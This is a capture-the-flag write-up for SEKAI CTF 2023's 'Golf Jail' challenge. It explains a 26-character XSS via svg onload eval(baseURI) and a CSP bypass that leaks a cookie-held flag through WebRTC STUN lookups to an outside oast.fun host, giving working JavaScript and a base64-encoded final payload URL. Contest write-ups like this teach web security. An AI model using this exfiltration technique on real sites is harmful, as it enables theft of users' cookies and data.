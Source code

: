 ```yaml
---
title: "SEKAI CTF 2023 - Golf Jail"
description: "JS Payload golfing and CSP Bypass using WebRTC"
lead: "JS Payload golfing and CSP Bypass using WebRTC"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "writeup"
weight: 620
toc: true
---
```


> I did not manage to solve it during the CTF, but I decided to make a write-up afterwards as it was a very cool challenge.

## Challenge

I hope you like golfing ⛳🏌️⛳🏌️

- Challenge URL: [https://golfjail.chals.sekai.team/](https://golfjail.chals.sekai.team/)

```html
<?php
    header("Content-Security-Policy: default-src 'none'; frame-ancestors 'none'; script-src 'unsafe-inline' 'unsafe-eval';");
    header("Cross-Origin-Opener-Policy: same-origin");

    $payload = "🚩🚩🚩";
    if (isset($_GET["xss"]) && is_string($_GET["xss"]) && strlen($_GET["xss"]) <= 30) {
        $payload = $_GET["xss"];
    }

    $flag = "SEKAI{test_flag}";
    if (isset($_COOKIE["flag"]) && is_string($_COOKIE["flag"])) {
        $flag = $_COOKIE["flag"];
    }
?>
<!DOCTYPE html>
<html>
    <body>
        <iframe
            sandbox="allow-scripts"
            srcdoc="<!-- <?php echo htmlspecialchars($flag) ?> --><div><?php echo htmlspecialchars($payload); ?></div>"
        ></iframe>
    </body>
</html>
```

> The admin bot only takes URLs of the format https://golfjail.chals.sekai.team/

## TL;DR

Create a tiny XSS to run a second payload contained inside the URL. This second payload will exfiltrate the flag and bypass the CSP using a DNS exfiltration with WebRTC.

## Write-Up

### Code Execution

Using `htmlspecialchars` within the `srcdoc` attribute doesn't prevent against HTML Injection/XSS. The code example below demonstrates that HTML entity codes are effectively interpreted inside the `iframe`. For more details, refer to [attr-iframe-srcdoc](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-srcdoc).

```js
function encodeHTMLEntities(text) {
  var textArea = document.createElement('textarea');
  textArea.innerText = text;
  return textArea.innerHTML;
}

document.write(`<iframe srcdoc='${encodeHTMLEntities("<img src=x onerror=alert()>")}'></iframe>`);
```

### Tiny XSS

We know how to execute an XSS, our next challenge is to bypass the 30 characters or less filter. To perform an XSS within this limit, we can use the URL to locate a part of our payload.

```python
>>> len("<svg onload=eval(location)>") # about:srcdoc
27
>>> len("<svg onload=eval(top.location)>") # https://golfjail.chals.sekai.team/...
31
>>> len("<svg onload=eval(baseURI)>") # https://golfjail.chals.sekai.team/...
26
```

When you're within an `iframe`, you can't employ the `location` attribute to access the top-level location and you can't use the `top.location` attribute because it exceeds the character limit. However, you can leverage the [baseURI](https://devdoc.net/web/developer.mozilla.org/en-US/docs/Web/API/Document/baseURI.html) property of the Node (in this case, the `svg`). This property provides the absolute base URL of the document housing the node.

{{< details "Iframe's sandbox & COOP" >}}
Futhermore, you cannot access the `top` window context because of the [sandbox](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox) iframe's attribute. Also, you cannot access the `opener` attribute from other origin because the [Cross-Origin-Opener-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy) header is set to `same-origin` (cross-origin documents are not loaded in the same browsing context).

```
=> WORKING
document.write("<iframe srcdoc='<script>alert(top.location)</script>'></iframe>")

=> NOT WORKING (Blocked by sandbox attribute)
document.write("<iframe sandbox='allow-scripts' srcdoc='<script>alert(top.location)</script>'></iframe>")

=> Depends on Cross-Origin-Opener-Policy, here only same-origin
document.write("<iframe sandbox='allow-scripts' srcdoc='<script>console.log(top.opener)</script>'></iframe>")
```

{{< /details >}}

As we cannot directly evalute the `baseURI` property, we can create a string that will contain the URL, close this string and initiate our second payload. This means the second payload resides both within the URL and outside the `xss` parameter, allowing us to bypass the character limit.

```
golfjail.chals.sekai.team/?xss=<svg onload=eval(`'`+baseURI)>#'+PAYLOAD2

1. 'https://golfjail.chals.sekai.team/?xss=<svg onload=eval(`'`+baseURI)>#'
2. +
3. PAYLOAD2

=> eval('https://.../?xss=eval(%60%27%60%2BbaseURI)>#' + PAYLOAD2)
```

### CSP Bypass

Now that we can execute an XSS without dealing with the character size resitriction, our final step is to find a CSP bypass to extract the flag. For this purpose, we can use a DNS exfiltration via WebRTC.

```
Content-Security-Policy:
    default-src 'none';
    frame-ancestors 'none';
    script-src 'unsafe-inline' 'unsafe-eval';
```

WebRTC exfiltration payload:

```js
var flag = document.firstChild.data.split('').map(x=>x.charCodeAt(0).toString(16)).join('').substr(32,48);
var pc = new RTCPeerConnection({
    "iceServers": [{
        "urls": ["stun:" + flag + ".ckpaek22vtc0000kjaw0gj5f8jhyyyyyb.oast.fun"]
    }]
});
pc.createOffer({
    offerToReceiveAudio: 1
}).then(o => pc.setLocalDescription(o));
```

Final payload:

```
https://golfjail.chals.sekai.team/?xss=%3Csvg%20onload=eval(`%27`%2BbaseURI)%3E#'+eval(atob('dmFyIGZsYWcgPSBkb2N1bWVudC5maXJzdENoaWxkLmRhdGEuc3BsaXQoJycpLm1hcCh4PT54LmNoYXJDb2RlQXQoMCkudG9TdHJpbmcoMTYpKS5qb2luKCcnKS5zdWJzdHIoMzIsNDgpOwp2YXIgcGMgPSBuZXcgUlRDUGVlckNvbm5lY3Rpb24oewogICAgImljZVNlcnZlcnMiOiBbewogICAgICAgICJ1cmxzIjogWyJzdHVuOiIgKyBmbGFnICsgIi5ja3BhZWsyMnZ0YzAwMDBramF3MGdqNWY4amh5eXl5eWIub2FzdC5mdW4iXQogICAgfV0KfSk7CnBjLmNyZWF0ZU9mZmVyKHsKICAgIG9mZmVyVG9SZWNlaXZlQXVkaW86IDEKfSkudGhlbihvID0+IHBjLnNldExvY2FsRGVzY3JpcHRpb24obykpOw=='))
```

> **SEKAI{jsjails_4re_b3tter_th4n_pyjai1s!}**
